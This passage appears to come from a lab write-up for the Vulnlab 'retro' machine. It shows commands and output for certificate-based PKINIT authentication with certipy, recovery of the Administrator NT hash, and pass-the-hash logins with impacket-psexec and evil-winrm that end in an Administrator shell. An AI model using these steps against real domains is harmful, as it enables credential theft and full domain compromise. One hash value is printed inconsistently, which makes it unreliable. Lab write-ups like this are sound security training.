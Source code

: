 - **Use for Kerberos authentication (PKINIT)**
    
    With this certificate, he can create a **TGT** for the `Administrator` account using PKINIT.
    
    ```
    ┌──(root㉿kali)-[~/Vulnlab/machines/retro]
    └─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.80.202
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Using principal: administrator@retro.vl
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd036838
    ```
    

Now that we have obtained the administrator's hash, we can log in with psexec.py, which did not work.

```bash
impacket-psexec retro.vl/administrator@retro.vl -hashes aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd0368389
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on retro.vl.....
[*] Found writable share ADMIN$
[*] Uploading file ypLEFwak.exe
[*] Opening SVCManager on retro.vl.....
[*] Creating service ejks on retro.vl.....
[*] Starting service ejks.....

```

Let's try with evil-winrm

```bash
┌──(root㉿kali)-[~/Vulnlab/machines/retro]
└─# evil-winrm -i 10.10.80.202 -u 'Administrator'  -H 252fac7066d93dd009d4fd2cd0368389 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```

Which ultimately worked.